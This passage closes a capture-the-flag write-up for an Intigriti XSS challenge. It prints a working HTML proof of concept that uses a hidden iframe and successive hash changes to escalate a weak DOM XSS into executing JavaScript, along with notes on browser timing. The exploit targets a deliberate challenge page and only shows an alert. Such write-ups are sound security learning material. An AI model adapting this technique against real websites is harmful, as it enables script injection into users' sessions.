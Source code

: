 ```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<script>
function setHash(hash) {
    frame.src = frame.src.split("#")[0] + "#" + hash
}

function pilot() {
    let hashes = [
        "?javascript:alert(document.domain)//&num1=x&operator=%3d&num2=searchQueryString",
        "?num1=location&operator=%3d&num2=x",
    ];
    for (let i = 0; i < hashes.length; i++) {
        // Chrome seems to do fine without it, but Firefox requires a small
        // delay after the hash has been set, to let the iframe run its
        // onhashchange handler
        setTimeout(() => { setHash(hashes[i]); }, i*100);
    }
}
</script>
</head>
<body>
<iframe id="frame" hidden onload="pilot()"
        src="https://challenge-1220.intigriti.io/#?num1=onhashchange&operator=%3d&num2=init">
</iframe>
</body>
</html>
```

I have a [PoC](https://acut3.xyz/intigriti-1220-ao56hrx42jg8/poc.html) online
if you want to give it a try.

Here are a few things to note:

* The hash changes are done in `pilot()`, which is called as the iframe's
  `onload` handler. This is to ensure we don't change the hash before the
initial page has been loaded completely.

* The hash is changed by changing the iframe's `src` attribute, and not it's
  `location`. Changing `frame.location` doesn't seem to fire the `onhashchange`
handler inside the iframe. If you know the reason for that, please let me know.

* The first hash change is done without any delay since we know the iframe is
  loaded completely. The second hash change is scheduled after a 100ms delay to
make sure the iframe's `onhashchange` handler has had time to do its job. This
is required on Firefox, which is is understandable, but for some reason Chrome
can execute the exploit reliably even without this delay. Not sure why.

## Final thoughts

A great challenge that showcases a beautiful way of escalating an otherwise
weak DOM XSS. This technique was new to me and required quite a few hours of
intense head scratching. Which of course made finding the solution even more
satisfying!

* * *
